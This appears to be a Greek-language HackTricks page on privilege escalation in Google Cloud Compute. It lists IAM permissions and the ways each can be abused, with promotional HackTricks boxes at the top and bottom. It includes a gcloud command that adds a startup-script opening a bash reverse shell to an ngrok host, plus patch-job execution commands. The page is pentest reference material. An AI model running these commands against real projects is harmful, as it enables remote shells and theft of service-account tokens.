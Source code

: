 # GCP - Εscalation προνομίων στο Compute

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (δίκτυο) στο GCP ελέγξτε:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Σημειώστε ότι για να εκτελέσετε όλες τις επιθέσεις εξέλιξης προνομίων που απαιτούν τροποποίηση των μεταδεδομένων της εικόνας (όπως η προσθήκη νέων χρηστών και κλειδιών SSH) **χρειάζεται να έχετε δικαιώματα `actAs` πάνω στο SA που είναι συνδεδεμένο με την εικόνα**, ακόμη κι αν το SA είναι ήδη συνδεδεμένο!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Με αυτήν την άδεια μπορείτε **να τροποποιήσετε** τις πληροφορίες **μεταδεδομένων** μιας **εικόνας** και να αλλάξετε τα **εξουσιοδοτημένα κλειδιά ενός χρήστη**, ή **να δημιουργήσετε ένα νέο χρήστη με δικαιώματα sudo**. Έτσι, θα μπορείτε να εκτελέσετε μέσω SSH σε οποιαδήποτε εικονική μηχανή και να κλέψετε τον Λογαριασμό Υπηρεσιών GCP με τον οποίο λειτουργεί η εικόνα.\
Περιορισμοί:

* Σημειώστε ότι οι Λογαριασμοί Υπηρεσιών GCP που λειτουργούν σε εικόνες VM έχουν από προεπιλογή ένα **πολύ περιορισμένο εύρος εφαρμογής**
* Θα πρέπει να είστε **σε θέση να επικοινωνήσετε με τον διακομιστή SSH** για να συνδεθείτε

Για περισσότερες πληροφορίες σχετικά με το πώς να εκμεταλλευτείτε αυτήν την άδεια ελέγξτε:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Μπορείτε επίσης να εκτελέσετε αυτήν την επίθεση προσθέτοντας νέο startup-script και επανεκκινώντας την εικόνα:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Αυτή η άδεια δίνει τα **ίδια προνόμια με την προηγούμενη άδεια** αλλά για συγκεκριμένες μονάδες αντί για ολόκληρο έργο. Οι **ίδιες εκμεταλλεύσεις και περιορισμοί όπως και για την προηγούμενη ενότητα ισχύουν**.

### `compute.instances.setIamPolicy`

Αυτού του είδους η άδεια θα σας επιτρέψει να **χορηγήσετε στον εαυτό σας έναν ρόλο με τα προηγούμενα προνόμια** και να εξελίξετε τα προνόμια καταχρώμενος αυτά.

### **`compute.instances.osLogin`**

Εάν **το OSLogin είναι ενεργοποιημένο στη μονάδα**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στη μονάδα. Δεν θα έχετε **δικαιώματα root** μέσα στη μονάδα.

{% hint style="success" %}
Για να συνδεθείτε με επιτυχία με αυτή την άδεια μέσα στη μονάδα VM, πρέπει να έχετε την άδεια `iam.serviceAccounts.actAs` πάνω στο SA που είναι συνδεδεμένο με τη VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Εάν **το OSLogin είναι ενεργοποιημένο στη μονάδα**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στη μονάδα. Θα έχετε **δικαιώματα root** μέσα στη μονάδα.

{% hint style="success" %}
Για να συνδεθείτε με επιτυχία με αυτή την άδεια μέσα στη μονάδα VM, πρέπει να έχετε την άδεια `iam.serviceAccounts.actAs` πάνω στο SA που είναι συνδεδεμένο με τη VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Είναι δυνατόν να **δημιουργήσετε ένα εικονικό μηχάνημα με εκχωρημένο Λογαριασμό Υπηρεσίας και να κλέψετε το τοκέν του λογαριασμού υπηρεσίας προσπελαύνοντας τα μεταδεδομένα για να εξελίξετε τα προνόμια σε αυτόν.

Το σενάριο εκμετάλλευσης για αυτήν τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Αν έχετε τις **`osconfig.patchDeployments.create`** ή **`osconfig.patchJobs.exec`** άδειες μπορείτε να δημιουργήσετε ένα [**patch job ή αναπτύξεις**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Αυτό θα σας επιτρέψει να μετακινηθείτε πλαγίως στο περιβάλλον και να κερδίσετε εκτέλεση κώδικα σε όλες τις μονάδες υπολογιστών εντός ενός έργου.

Αν θέλετε να εκμεταλλευτείτε χειροκίνητα αυτό, θα πρέπει να δημιουργήσετε είτε ένα [patch job](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) είτε μια [αναπτυξιακή διαδικασία](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) για ένα patch job εκτελέστε:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Για να αναπτύξετε μια αναπτυξιακή διαδικασία:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Υπάρχουν αυτοματοποιημένα εργαλεία όπως το [patchy](https://github.com/rek7/patchy) που υπάρχουν για να ανιχνεύσουν χαλαρές άδειες και να μετακινηθούν πλαγίως αυτόματα.

**Μπορείτε επίσης να εκμεταλλευτείτε αυτό για μόνιμη παραμονή.**

### `compute.machineImages.setIamPolicy`

**Χορηγήστε στον εαυτό σας επιπλέον δικαιώματα** στην εικόνα μηχανής.

### `compute.snapshots.setIamPolicy`

**Χορηγήστε στον εαυτό σας επιπλέον δικαιώματα** σε ένα αντίγραφο ασφαλείας δίσκου.

### `compute.disks.setIamPolicy`

**Χορηγήστε στον εαυτό σας επιπλέον δικαιώματα** σε ένα δίσκο.

### Παράκαμψη Εμβέλειας Πρόσβασης

Ακολουθώντας αυτό το σύνδεσμο θα βρείτε μερικές [**ιδέες για να προσπαθήσετε να παρακάμψετε τις εμβέλειες πρόσβασης**](../).

### Τοπική Ανόδος Προνομίων στην Μονάδα Υπολογιστή GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Αναφορές

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγράφου**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
